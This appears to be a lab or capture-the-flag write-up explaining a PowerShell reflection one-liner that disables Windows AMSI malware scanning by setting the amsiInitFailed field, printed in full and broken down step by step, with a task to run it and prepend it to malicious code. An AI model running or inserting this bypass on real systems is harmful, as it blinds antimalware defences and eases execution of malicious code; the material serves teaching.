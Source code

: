 Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

To explain the code functionality, we will break it down into smaller sections.

First, the snippet will call the reflection function and specify it wants to use an assembly from `[Ref.Assembly]` it will then obtain the type of the AMSI utility using `GetType`.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

The information collected from the previous section will be forwarded to the next function to obtain a specified field within the assembly using `GetField`.

```
.GetField('amsiInitFailed','NonPublic,Static')
```

The assembly and field information will then be forwarded to the next parameter to set the value from `$false` to `$true` using `SetValue`.

```
.SetValue($null,$true)
```

Once the `amsiInitFailed` field is set to `$true`, AMSI will respond with the response code: AMSI_RESULT_NOT_DETECTED = 1

### Answer the questions below

Read the above and practice leveraging the one-liner on the provided machine.

* To utilize the one-liner, you can run it in the same session as the desired malicious code or prepend it to the malicious code.

* Enter the flag obtained from the desktop after executing the command.

	```
	[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
	```

	![task6-flag](./images/task6-flag.png)
